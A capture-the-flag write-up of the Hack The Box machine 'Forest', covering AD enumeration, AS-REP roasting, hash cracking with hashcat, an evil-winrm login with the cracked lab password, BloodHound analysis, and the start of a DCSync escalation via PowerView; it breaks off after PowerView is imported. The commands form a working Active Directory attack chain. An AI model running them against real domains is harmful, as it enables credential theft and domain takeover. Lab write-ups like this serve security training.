## Intro

This writeup is about the easy HTB machine "Forest".

The Box requires techniques such as AS-REP roasting and DCSync in order to be solved and showcases AD misconfigurations in a very fun and engaging way.

So let's jump right in.

## Information Gathering

We're going to start things off with a broad all-ports nmap scan, which reveals lots of open ports:

### Initial Nmap Scan

<details>
  <summary>Nmap initial ommand</summary>
  <p>
   
   ```
   sudo nmap -p- --min-rate 10000 -oA nmap/inital <IP>
   ```

  </p>
</details>

<br>

  

<br>

This looks like a Windows AD Domain Controller. 

Let's scan the open ports in more detail:

### Detailed Nmap Scan


<details>
  <summary>Nmap detailed Command</summary>
  <p>
   
   ```
   sudo nmap -p53,88,135,139,389,445,464,593,636,3268,3269,5985,9389,47001,49664,49665,49666,49667,49669,49676,49677,49683,49698,64801 -sC -sV --reason -oA nmap/detailed <IP>
   ```

  </p>
</details>

<br>

  

<br>

There's plenty of services to enumerate.

Let's try the easy thing first and see if there are publicly accessible smb shares.

This was unsuccessful.

However, using impacket-samrdump reveals some usernames.

### Impacket-Samrdump

<details>
  <summary>Samrdump Command</summary>
  <p>
   
   ```
    impacket-samrdump <IP>
   ```

  </p>
</details>

<br>

 

<br>

I used ChatGPT to parse all of the usernames into a clean list:

<br>

 

You can use any other tool, the only important thing is that the usernames are separated only by a newline character with no additional information.

## Vulnerability Assessment

After putting the sorted list into a file we can run the following command to see if we can AS-REP roast any of these users:

### Impacket-GetNPUsers

<details>
  <summary>Impacket-GetNPUsers Command</summary>
  <p>
   
   ```
    impacket-GetNPUsers HTB/ -usersfile users.txt -format hashcat -outputfile asrep.hash -dc-ip <IP>
   ```

  </p>
</details>

<br>

 

<br>

As we can see, we got a hash for the user "svc-alfresco".

<details>
  <summary> <- Click here to read about why this works </summary>
  <p>
   
   ```
A few terms you need to know before diving in:

- KDC (Key Distribution Center): Used in AD environments to authenticate clients. 
The KDC is split into two logical cores:
- The AS (Authentication Server): Used to authenticate clients.
- The TGS (Ticket Granting Service): Used to issue access tickets (permissions) to services after a client has been authenticated.

A practical example:

You are at work and need to access a file on a file server.
You navigate to the file server icon in your file system, and click on it to access the file share.
Under the hood, a key is now derived from your password, and with this so called long-term key, the timestamp of your request is encrypted and sent to the AS. 

This is known as the AS-REQ.

The KDC, which stores your long-term key, can decrypt this message and thereby verify two things at once:
- It was you who made the request.
- The request was made recently. 

After authenticating you, the AS responds with two important things:
- The TGT (Ticket Granting Ticket). You present this to the TGS, which will issue a service ticket. (This is encrypted with the krbtgt account's key and is used by the KDC to read later on)
- A portion encrypted using your long-term key (the key derived from your password), containing your session key and metadata.

But there is a problem.

There is an optional and legitimate bypass for mechanism, called "Do not require Kerberos preauthentication".
It is sometimes neccessary in order to communicate with legacy Windows systems, or systems which are incompatible with the preauth mechanism.
If this option is set, your AS-REQ won't contain preauthentication data (the timestamp encrypted with your long-term key), but the AS responds with the AS-REP anyway.

Important: This does not mean that the password promt is skipped, or that an attacker can now access any service. They would still need to authenticate to the TGS using the TGT and the session key (which they can't recover, since it's locked inside the portion encrypted with your long-term key). It is needed for the TGS-REQ, which includes an authenticator: a timestamp encrypted with the session key, so without it they cannot build a valid TGS-REQ even though they hold a TGT. 

But an attacker making an AS request with an account that has preauth disabled, can capture the AS-REP even with a wrong password or no password at all.  The AS-REP still contains the portion encrypted with your long-term key which can now be brute-forced offline if the password is weak.
   ```

  </p>
</details>


## Exploitation

We can now try to decrypt this blob using hashcat.

### Decrypt AS-REP blob

<details>
  <summary>Hashcat Command</summary>
  <p>
   
   ```
    hashcat -m 18200 asrep.hash /usr/share/wordlists/rockyou.txt
   ```

  </p>
</details>

<br>



<br>

We found the password!

We can now log in to the DC using evil-winrm and retrieve the flag.


### Evil-WinRM

<details>
  <summary>Evil-WinRM Command</summary>
  <p>
   
   ```
    evil-winrm -i <IP> -u svc-alfresco -p s3rvice
   ```

  </p>
</details>

<br>




## Post Exploitation

Having valid user credentials, we can enumerate the DC further using bloodhound.

Let's first collect the necessary data with bloodhound-python:


### Bloodhound-Python

<details>
  <summary>Bloodhound-Python</summary>
  <p>
   
   ```
    bloodhound-python -d htb.local -u svc-alfresco -p 's3rvice' -ns <IP> -c all

   ```

  </p>
</details>

<br>



<br>

Next we must import the .json files into bloodhound.

After typing 'bloodhound' into the terminal, logging in using neo4j:neo4j, clicking the Upload Data button on the right and selecting our files we can search for svc-alfresco in the Start Node search field.

We want to escalate privileges, so our Target Node should be Administrator. 

We are presented with this graph:

### Initial Bloodhound Graph



<br>

We can see that we are a member of "Service Accounts", which is a member of "Privileged IT Accounts". That sounds quite interesting, so let's investigate further.

Clicking on "Privileged IT Accounts", navigating to "Node Info" and clicking on "Unrolled Member Of" under "Group Membership" reveals, that "Privileged IT Accounts" is also a member of "Account Operators":


### Privileged IT Accounts



<br>

Account Operators seems like an important group to be in, so let's see if it has any high permissions like "GenericAll" on any other important objects.

We can mark this group as owned, and create and execute this custom cypher query under Analysis -> Custom Queries.:
```
MATCH p=(g:Group {owned: true})-\[:GenericAll\]->(n) RETURN p
```
### Custom Query



<br>

We get lots of results, and after scouring through the many connections, we can see that the Account Operators group has generic all rights to the "Exchange Windows Permissions" Group:

### Account Operators Generic All



<br>

Right-clicking on the connection line, then "Help?" and finally "Windows Abuse" gives us more information on what this means:

### Explanation




## Privilege Escalation

We can modify the Exchange Windows Permissions group, which means that we could add our compromised account to the group.

This is important because Exchange Windows Permissions has WriteDacl permissions on the domain object by default.

With this type of privilege we can give ourselves DCSync rights.

First we must to download the PowerView.ps1 script to our victim host.

After downloading the script to our attack machine, we can fire up a python http server and transfer it to our victim host.

### File Transfer

<details>
  <summary>Download PowerView.ps1 using wget</summary>
  <p>
   
   ```
    wget https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/refs/heads/master/Recon/PowerView.ps1 -O pw.ps1

   ```

  </p>
</details>

<br>



<br>

Now we just need to import that class into our current powershell session by running:
```
. .\pw.ps1
```

